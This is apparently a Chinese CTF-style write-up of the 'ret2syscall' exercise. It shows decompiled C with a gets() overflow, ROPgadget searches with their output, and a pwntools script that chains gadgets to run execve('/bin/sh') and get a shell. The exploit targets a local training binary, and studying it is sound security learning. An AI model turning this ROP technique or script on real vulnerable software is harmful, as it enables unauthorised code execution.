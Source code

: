 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h]

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

还是从 gets 处溢出，只不过不能用程序自身代码或填入 shellcode的方式 getshell。程序里有 `/bin/sh` 字符串，构造系统调用 `execve("/bin/sh")`，需要控制寄存器的值：

- eax = 0xb
- ebx = \$(“/bin/sh”)
- ecx = edx = 0

需要构造 ROP chain 控制寄存器的值，使用 ROPgadget 找到程序中可用的 gadgets：

```shell
$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'pop eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

$ ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'pop ebx' | grep 'pop ecx' | grep 'pop edx' 
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret

$ ROPgadget --binary ret2syscall --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh

$ ROPgadget --binary ret2syscall --only 'int' | grep '0x80'
0x08049421 : int 0x80
```

找到了可以控制 eax 和同时控制三个寄存器的 gadgets、系统调用以及字符串地址，接下来就是通过栈溢出，依次执行 gadgets，最后执行 syscall。

还是先用 gdb 计算偏移地址，然后覆盖

```python
##coding=utf8
from pwn import *

r = process('./ret2syscall')

offset = 0xffffd5d8 - 0xffffd56c + 4

pop_eax = 0x080bb196
pop_edx_ecx_ebx = 0x0806eb90
bin_sh = 0x080be408
syscall = 0x08049421

r.sendline('a'*offset + p32(pop_eax) + p32(0xb) + p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(bin_sh) + p32(syscall))

r.interactive()
```
